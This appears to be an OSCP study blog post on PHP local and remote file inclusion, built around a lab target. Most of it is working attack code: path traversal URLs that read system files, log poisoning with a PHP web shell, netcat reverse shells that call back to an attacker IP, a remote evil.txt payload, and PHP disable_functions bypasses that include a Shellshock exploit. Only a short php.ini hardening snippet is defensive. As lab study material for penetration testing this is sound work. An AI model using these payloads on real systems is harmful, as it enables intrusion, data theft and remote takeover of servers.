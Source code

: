 ```yaml
---
title:  "OSCP: LFI and RFI"
date:   2018-03-26 03:22:33 +0800
categories: oscp
classes:
  - landing
---
```


LFI happens when an PHP page explicitly calls include function to embed another PHP page, which can be controlled by the attacker.
For example, addguestbook.php below include another PHP page that can be chosen depending on the language input:
```php
$lang = $_GET['LANG'];
include( $lang . '.php' );
```
Because the LANG field can be controlled, the attacker can put in the path to a local or remote file.

## 1. Local file inclusion (LFI)
### a. Reading arbitrary files
Windows hosts file:
`http://10.11.23.188/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00&name=test&comment=test`

### b. Contaminating apache log file and executing it
Use netcat to connect to the server and contaminate `C:/xampp/apache/logs/access.log` file:
```
root@kali:~# nc -v 10.11.23.188 80
10.11.23.188: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.23.188] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?> 
^C
```
After contamination, the access.log file on the serve is like this:
>10.11.0.105 - - [11/Mar/2018:11:24:17 -0400] "GET /addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig&name=test&comment=test HTTP/1.1" 200 369
>10.11.0.105 - - [11/Mar/2018:11:24:48 -0400] "<?php echo shell_exec($_GET['cmd']);?> " 400 366

Display the access.log file to execute the command:
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig&name=test&comment=test`

### c. Transferring netcat and obtaining reverse shell
Kali:
```
mkdir /tftp 
atftpd --daemon --port 69 /tftp 
cp /usr/share/windows-binaries/nc.exe /tftp/ 
```
Windows:
```
tftp -i 10.11.0.105 get nc.exe
nc.exe -e cmd.exe 10.11.0.105 4444
```
Kali:
```
nc -lvp 4444
```
Access this URL to open the shell
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444&name=test&comment=test`
Note:
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
is used to get the TTY shell

## 2. Remote file inclusion (RFI)
Executing a command via a remote php page:
http://10.11.23.188/addguestbook.php?LANG=http://10.11.0.105:31/evil.txt%00&name=test&comment=test

Content of `/var/www/html/evil.txt`:
```php
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>
```
Most modern php configuration disallows remote file includes of http URIs. For example: `xampp/apache/bin/php.ini`
```ini
allow_url_fopen = Off
allow_url_include = Off
```
## 3. Bypass PHP disable_functions
The server admin can disable PHP command execution to enhance the security. In that case, we have to bypass it so that our LFI/RFI attack is meaningful.
### Use PHP code to download file and list directory
```php
function listDir($dir) {
    if ($handle = opendir($dir)) {
        while (false !== ($entry = readdir($handle))) {
            if ($entry != "." && $entry != "..")
                echo "$entry<br>";
        }
        closedir($handle);
    }
}
function downloadFile($url, $path) {
    unlink($path);
    $file = fopen ($url, 'rb');
    if ($file) {
        $newf = fopen ($path, 'wb');
        if ($newf) {
            while(!feof($file))
                fwrite($newf, fread($file, 1024 * 8), 1024 * 8);
            fclose($file);
        }
        fclose($file);
    }
}
```
### PHP 4.2.0+, PHP 5: pcntl_exec
```php
<?php
$cmd = @$_REQUEST[cmd];
if(function_exists('pcntl_exec'))
    die('pcntl not found');

$cmd = $cmd."&pkill -9 bash >out";
pcntl_exec("/bin/bash", $cmd);
echo file_get_contents("out");        
?>
```
### PHP 5.2.3: Win32std ext Protections Bypass
```php
<?php
if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\\..\\..\\..\\windows\\system32\\cmd.exe");
?>
```
### PHP 5.x: Shellshock
```php
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
    if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
        $tmp = tempnam(".","data");
        putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
        mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
    }
    else return "Not vuln (not bash)";
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output != "") return $output;
    else return "No output, or not vuln.";
}
?>
```
## 4. Deal with missing -e option in netcat
Certain nc version does not provide -e option for us to open a shell session. Workaround by using `/bin/sh` as below:
```php
<?php
function reverse_shell() {
    echo "Disabled functions: " . ini_get('disable_functions')."\n";
    unlink("/tmp/backpipe");
    echo shellshock("mknod /tmp/backpipe p ");
    echo shellshock("/bin/sh -c '/bin/sh 0</tmp/backpipe | nc 10.11.0.105 4444 1>/tmp/backpipe'");
}
?>
```

**References:**
- LFI:
http://resources.infosecinstitute.com/local-file-inclusion-code-execution/
https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
https://www.sunnyhoi.com/how-to-hack-a-website-using-local-file-inclusion-lfi/
- TTY:
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- Reverse shell:
https://highon.coffee/blog/reverse-shell-cheat-sheet/
https://netsec.ws/?p=331
- PHP disable_functions
http://blog.safebuff.com/2016/05/06/disable-functions-bypass/
- Netcat missing -e
https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/

